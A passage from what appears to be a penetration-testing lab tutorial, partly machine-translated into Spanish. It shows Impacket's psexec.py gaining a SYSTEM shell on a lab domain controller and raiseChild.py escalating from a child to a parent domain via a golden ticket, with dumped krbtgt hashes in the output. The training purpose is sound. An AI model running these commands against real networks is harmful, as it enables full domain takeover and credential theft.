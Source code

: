 #### Obtener un shell de sistema usando psexec.py de Impacket

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - de Linux

```shell-session
xnoxos@htb[/htb]$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file nkYjGWDZ.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service eTCU on 172.16.5.5.....
[*] Starting service eTCU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
ACADEMY-EA-DC01
```

Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain. We need to specify the target domain controller and credentials for an administrative user in the child domain; the script will do the rest. If we walk through the output, we see that it starts by listing out the child and parent domain's fully qualified domain names (FQDN). It then:

- Obtiene el SID para el grupo de administradores empresariales del dominio principal
- Recupera el hash para la cuenta KRBTGT en el dominio infantil
- Crea un boleto de oro
- Registra el dominio principal
- Recupera credenciales para la cuenta de administrador en el dominio principal

Finalmente, si el`target-exec`Se especifica el interruptor, se autentica al controlador de dominio del dominio principal a través de PSEXEC.

#### Realizando el ataque con Raisechild.py

  Atacando los fideicomisos de dominio - Niño -> Fideicomisos de padres - de Linux

```shell-session
xnoxos@htb[/htb]$ raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
```